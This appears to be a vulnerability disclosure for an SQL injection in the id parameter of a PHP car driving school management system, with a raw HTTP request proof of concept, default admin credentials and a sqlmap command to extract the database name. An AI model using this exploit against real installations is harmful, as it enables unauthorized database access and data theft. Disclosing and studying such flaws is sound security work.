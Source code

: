 ### SQL injection vulnerability exists in Sourcecodester Car Driving School Management System

official website:https://www.sourcecodester.com/php/15070/car-driving-school-management-system-phpoop-free-source-code.html

version:v1.0

route:/cdsms/classes/Master.php?f=delete_package

related code file:Master.php

injection parameter:${'id'}

#### 1.Vulnerability analysis

After receiving the id parameter passed in through the get method in the Master.php file, it is directly spliced into the SQL query statement for execution without any security filtering. An attacker can use this parameter to perform SQL injection to read arbitrary database information.

![image-20240725212814908](assets/image-20240725212814908.png)

#### 2.Vulnerability verification and exploit

After admin/admin123 logs in to the system backend, replace the cookie content in the following POC and save it as 1.txt.Note that you need to modify the deployed IP address, port, and cookie information in the data packet according to the environment.

```
POST /cdsms/classes/Master.php?f=delete_package HTTP/1.1
Host: localhost
Content-Length: 4
sec-ch-ua: "Chromium";v="113", "Not-A.Brand";v="24"
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.127 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://localhost
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost/cdsms/admin/?page=packages
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: Hm_lvt_f8cddee34ca21f05373a9388cfdd798b=1721700678; PHPSESSID=32r6u9afm833p0abeg632sl4id
Connection: close

id=1
```

python sqlmap.py -r 1.txt --batch --current-db

![image-20240725212637858](assets/image-20240725212637858.png)

Successfully obtained the injected payload and database name.
